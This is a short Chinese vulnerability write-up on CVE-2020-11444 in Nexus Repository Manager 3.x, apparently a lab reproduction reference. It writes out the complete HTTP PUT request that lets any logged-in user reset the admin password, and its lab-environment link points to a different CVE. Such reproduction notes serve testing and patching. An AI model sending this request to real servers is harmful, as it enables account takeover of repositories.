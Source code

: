 # Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

<a-checkbox checked>Nexus  3.x OSS / Pro <= 3.21.1</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204</a-checkbox></br>

## 漏洞复现

漏洞触发需要任意账户权限

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313130306566.png)



登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码

```plain
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
Content-Length: 11

data=123456
```

返回204则修改成功

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313130306557.png)